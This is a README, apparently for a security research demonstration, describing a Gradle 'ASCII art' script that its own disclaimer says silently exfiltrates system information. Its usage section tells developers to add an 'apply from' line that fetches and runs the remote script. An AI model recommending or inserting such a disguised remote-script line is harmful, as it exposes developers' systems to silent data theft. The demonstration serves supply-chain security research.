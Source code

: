 **⚠️ DISCLAIMER:**  
This repository and associated scripts are **strictly for research and educational purposes only**.  
It includes intentionally vulnerable code demonstrating how sensitive information could be exfiltrated from within a seemingly benign utility that developers might download and use from GitHub repositories.  
**DO NOT** use or execute this code in any production or real-world environment.
The exfiltration attempt fails silently, ensuring the end user remains unaware of malicious activity, strictly for demonstrating potential vulnerabilities.
This repository is strictly for educational and research purposes only. It demonstrates how sensitive system information might be exfiltrated silently. **Do not run or deploy in a production environment.**

# Gradle TaskGraph ASCII Art

This Gradle script prints an ASCII art whenever the task graph is ready. It uses the `gradle.taskGraph.whenReady` hook to ensure the art appears just before task execution begins.

## Usage

### Importing the Script

To use this script in your Gradle project, import it directly from your GitHub repository. Save the script as a separate file (e.g., `ascii-art.gradle`) in your repository, then reference it in your `build.gradle` file using:

```gradle
apply from: 'https://raw.githubusercontent.com/oxsecurity/gradle-plugin-nyan-cat/refs/heads/main/nyancat.gradle'
```

This script is a fun way to add a little personality to your Gradle tasks! 🚀
